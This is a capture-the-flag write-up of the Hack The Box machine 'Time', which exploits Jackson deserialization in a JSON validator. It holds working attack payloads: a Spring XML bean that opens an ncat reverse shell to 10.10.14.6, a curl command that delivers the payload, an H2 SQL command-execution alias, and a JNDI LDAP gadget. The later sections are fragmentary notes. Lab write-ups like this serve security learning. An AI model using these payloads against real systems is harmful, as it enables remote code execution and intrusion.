 # Time writeup by XMBomb
```
# Nmap 7.91 scan initiated Fri Dec 11 17:16:02 2020 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.214
Nmap scan report for 10.10.10.214
Host is up (0.097s latency).
Not shown: 977 closed ports
PORT      STATE    SERVICE       VERSION
80/tcp    open     http          Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
683/tcp   filtered corba-iiop
990/tcp   filtered ftps
1000/tcp  filtered cadlock
1039/tcp  filtered sbl
1059/tcp  filtered nimreg
1063/tcp  filtered kyoceranetdev
1064/tcp  filtered jstel
1131/tcp  filtered caspssl
1145/tcp  filtered x9-icue
2013/tcp  filtered raid-am
2557/tcp  filtered nicetec-mgmt
3889/tcp  filtered dandv-tester
3945/tcp  filtered emcads
5190/tcp  filtered aol
5431/tcp  filtered park-agent
6156/tcp  filtered unknown
8290/tcp  filtered unknown
20828/tcp filtered unknown
21571/tcp filtered unknown
49152/tcp filtered unknown
50006/tcp filtered unknown
57294/tcp filtered unknown

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 11 17:17:16 2020 -- 1 IP address (1 host up) scanned in 74.92 seconds
```
Nmap reveals a website running. Visiting it gives us a web-app to format json. It also supports validation, but immediately crashes with a valid json of '{}'
![](2020-12-11-17-18-18.png)
The error is
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
Jackson is a Java JSON decoding library, could be a possible injection point.

As it's http, it makes sense to run a dirsearch against it in the background:
```
/opt/dirsearch/dirsearch.py -u http://10.10.10.214/ -E --plain-text-report=scan
```
![](2020-12-11-17-21-43.png)
there seems to be a login as well, visiting it just brings us to another page that seems to look the same
![](2020-12-11-17-24-29.png)

Googling for "jackson exploit" yields this
https://github.com/jault3/jackson-databind-exploit

let's clone it and see if the target is vulnerable:
```bash
git clone https://github.com/jault3/jackson-databind-exploit
```
We need to make some adjustments to the two files
![](2020-12-11-17-32-44.png)

I've changed them to reflect my machine
exploit.json
```json
{
    "id":123,
    "obj": [
        "org.springframework.context.support.FileSystemXmlApplicationContext",
        "http://10.10.14.6:8000/spel.xml"
    ]
}
```
spel.xml
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
     <constructor-arg>
        <list value-type="java.lang.String">
            <value>/usr/local/bin/ncat</value>
            <value>10.10.14.6</value>
            <value>4444</value>
            <value>-e</value>
            <value>/bin/bash</value>
        </list>
     </constructor-arg>
  </bean>
</beans>
```

```bash
# start server in cloned folder, hosts spel.xml
python3 -m http.server 8000
# start nc listener
nc -lvnp 4444

curl -i -XPOST -H 'Content-Type: application/json' http://10.10.10.214/ -d @exploit.json
```


https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json

```bash
git clone https://github.com/mbechler/marshalsec
mvn clean package -DskipTests
```



Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidDefinitionException: Invalid type definition for type `com.sun.rowset.JdbcRowSetImpl`: Illegal type (com.sun.rowset.JdbcRowSetImpl) to deserialize: prevented for security reasons



https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java


![](2020-12-13-21-42-31.png)

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

![](2020-12-13-21-46-50.png)
```
cat class-requests | grep "<pre>" > class-responses.txt
```

![](2020-12-13-21-59-01.png)
![](2020-12-13-21-59-45.png)

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('id > exploited.txt')
```


![](2020-12-13-22-04-17.png)

http://h2-database.66688.n3.nabble.com/With-LOCK-MODE-0-log-file-still-has-hundreds-of-locks-td4034738.html

```
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://10.10.14.16:1389/Exploit"}]
```


https://github.com/ozkanbilge/Jackson-RCE


```
git clone https://github.com/conikeec/jackspoilt.git
cd jackspoilt
mvn package
Start application server : java -jar target/jackspoilt-1.0-SNAPSHOT.jar

mvn exec:java -D"exec.mainClass"="EncodeExploit"
```